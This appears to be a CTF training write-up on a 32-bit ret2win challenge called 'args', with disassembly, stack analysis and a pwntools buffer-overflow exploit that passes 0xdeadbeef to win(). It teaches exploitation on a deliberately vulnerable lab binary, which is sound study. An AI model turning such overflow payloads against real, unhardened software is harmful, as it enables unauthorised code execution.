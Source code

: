 ```yaml
---
description: Solving another ret2win, with a twist.
---
```


# args

{% file src="../../.gitbook/assets/args.zip" %}

Now that we've spent some time going over binaries in extreme detail, I am going to omit some of the initial details of the disassembly and focus more on the newer concepts. This binary is strikingly similar to the ret2win.

### Checking Security

```bash
$ checksec args
[*] '/home/joybuzzer/Documents/vunrotc/public/01-ret2win/args/src/args'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

All the security features are still disabled.

### Disassembly

Checking the functions list:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  __libc_start_main@plt
0x08049050  fflush@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  system@plt
0x08049090  _start
0x080490d0  _dl_relocate_static_pie
0x080490e0  __x86.get_pc_thunk.bx
0x080490f0  deregister_tm_clones
0x08049130  register_tm_clones
0x08049170  __do_global_dtors_aux
0x080491a0  frame_dummy
0x080491a6  win
0x080491ef  read_in
0x0804923c  main
0x08049254  __x86.get_pc_thunk.ax
0x08049258  _fini
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

If we check `read_in()` and `main()`, we'll see that the two methods are identical. Let's check `win()`.

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  disas win
Dump of assembler code for function win:
   0x080491a6 <+0>:	push   ebp
   0x080491a7 <+1>:	mov    ebp,esp
   0x080491a9 <+3>:	push   ebx
   0x080491aa <+4>:	sub    esp,0x4
   0x080491ad <+7>:	call   0x8049254 <__x86.get_pc_thunk.ax>
   0x080491b2 <+12>:	add    eax,0x2e4e
   0x080491b7 <+17>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x080491be <+24>:	je     0x80491d6 <win+48>
   0x080491c0 <+26>:	sub    esp,0xc
   0x080491c3 <+29>:	lea    edx,[eax-0x1ff8]
   0x080491c9 <+35>:	push   edx
   0x080491ca <+36>:	mov    ebx,eax
   0x080491cc <+38>:	call   0x8049070 <puts@plt>
   0x080491d1 <+43>:	add    esp,0x10
   0x080491d4 <+46>:	jmp    0x80491ea <win+68>
   0x080491d6 <+48>:	sub    esp,0xc
   0x080491d9 <+51>:	lea    edx,[eax-0x1fee]
   0x080491df <+57>:	push   edx
   0x080491e0 <+58>:	mov    ebx,eax
   0x080491e2 <+60>:	call   0x8049080 <system@plt>
   0x080491e7 <+65>:	add    esp,0x10
   0x080491ea <+68>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491ed <+71>:	leave  
   0x080491ee <+72>:	ret   
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The most glaring part of this function is the call to `cmp`, a comparison function. `cmp` is used in assembly to manage `if` statements.

* The first instruction is `cmp`, which takes in the two values to compare. This returns a value of `0` if the two values are equal, `1` if the first value is greater than the second, and `-1` if the first value is less than the second.
* The next instruction is a "_jump if_" instruction. These are used in tandem with `cmp` to decide where we go. In this case, the program decides to _jump if equal_ (`je`). `je` takes an address: where in the function you want to jump to.

Let's check out the two routes:

* If the first value (`DWORD PTR [rbp+0x8]`) is equal to `0xdeadbeef`, then we move to `win+48`. If we follow `win+48`, we see that this reaches `system`.
* If `DWORD PTR [rbp+0x8]` is not equal, it will continue instructions. However, there is a `jmp` call, which is going to jump to `win+68`, which skips the `system` call.

_What is `DWORD PTR [rbp+0x8]`?_ Let's think about it in terms of the stack. The stack frame is going to be located at `rbp`. After `rbp` is going to be the _return pointer_, as we saw in our stack frame from earlier:

```
   |-- rsp
   v
[... | ... buffer for function ... | base pointer | return pointer | ... ]
```

That means that at `rbp+0x8` holds the last thing pushed to the stack _before the `win()` function was called_. **This is the (first) parameter that's passed to the function.** Subsequent items on the stack would serve as the following parameters.

This tells us that we need to pass the parameter `0xdeadbeef` to the `win()` function. Since this is 32-bit, let's just pass it right after the return pointer!

```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```

We pass `cmp` through `p32()` for two reasons: (1) we need it to be little-endian, and (2) we need it to be the entire parameter size.

Running this yields doesn't work!

```bash
[+] Starting local process './args': pid 5882
[*] Switching to interactive mode
Good luck winning here!
You lose!
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 5882)
```

What went wrong? If we do some digging, we'll find that _You lose!_ gets printed whenever we don't match the correct argument:

```as
──── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x0804a008 → "You lose!"
)
```

(_If you're struggling to find this for yourself, attach a gdb instance to your exploit and then step through it until you reach the `puts` call._)

What is happening? Checking the stack frame at the time of the `cmp` call shows us:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/20wx $esp
0xffdcb134:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffdcb144:	0x00000000	0xf7fba020	0xf7c21519	0x00000001
0xffdcb154:	0xffdcb204	0xffdcb20c	0xffdcb170	0xf7e2a000
0xffdcb164:	0x0804923c	0x00000001	0xffdcb204	0xf7e2a000
0xffdcb174:	0xffdcb204	0xf7fb9b80	0xf7fba020	0xa1d90556
gef➤  x/wx $ebp+0x8
0xffdcb144:	0x00000000
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We're off by one chunk? _Why is that?_ Since we're jumping to `win()` by changing the value of the return pointer, rather than going there via `call win`, a return pointer is never pushed on the stack. However, since the code doesn't expect us to do this, it treats the stack as if there still is one.

{% hint style="warning" %}
_In our code, `0xdeadbeef` is actually serving as the return pointer for `win()`. If you continue execution, you'll notice you end up at this address:_

```as
[#0] Id 1, Name: "args", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
```
{% endhint %}

This is an easy fix. All we need to do is allocate space for a return pointer in our payload. Since it doesn't matter to us what it is, because we'll have already gotten our data by the time it's ever reached, we can just use `0x0`:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(0x0)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

(_You could use something like `main` ensuring that the program doesn't crash, but it's unnecessary._)

Running this works!

```bash
[+] Starting local process './args': pid 6081
[*] Switching to interactive mode
Good luck winning here!
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 6081)
[*] Got EOF while sending in interactive
```

Running this on the remote server will get your flag!
